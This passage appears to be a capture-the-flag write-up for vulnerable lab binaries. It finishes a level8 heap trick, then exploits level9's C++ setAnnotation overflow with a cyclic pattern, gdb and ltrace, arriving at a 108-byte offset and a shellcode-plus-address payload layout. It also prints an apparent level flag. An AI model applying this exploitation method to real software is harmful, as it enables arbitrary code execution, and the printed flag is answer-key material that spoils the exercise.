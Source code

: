 Don't forget the space after the first `auth`

The first address needs to 32 more the second one.
Each time we write service, the second address gets incremented by 16.

```
gdb> disass main
0x08048625 <+193>: cmp eax,0x1e
```
So the second address is 31, then we need to run service twice to be >= 32

`c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a`

# level9
  
```
run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Program received signal SIGSEGV, Segmentation fault.

0x08048682 in main ()
```

  
```
> info register eax
> eax 0x41366441 1094083649 -> 108 offset
```
  

```
> disass main
[...]
0x08048677 <+131>: call 0x804870e <_ZN1N13setAnnotationEPc>
0x0804867c <+136>: mov 0x10(%esp),%eax
[...]

> b *main+136 # Just after setAnnotation
> run 'AAAA'
> x $eax
0x0804a00c: 0x41414141
addr_shell (4) + shellcode (23) + padding (81) + buffer_addr (4)
112
```
  

```
addresse_shell_code = memcpy + 0x04

> ltrace ./level9 "AAAA"
memcpy(0x0804a00c, "AAAA", 4) = 0x0804a00c

> gdb
> disas 0x804870e
0x08048738 <+42>: leave
> b *0x08048738
> run AAAA
0x804a00c: 0x41414141 0x00000000 0x00000000 0x00000000
^^^^^^^^^^

addresse_shell_code = 0x804a00c +0x04 = 0x804A010
```

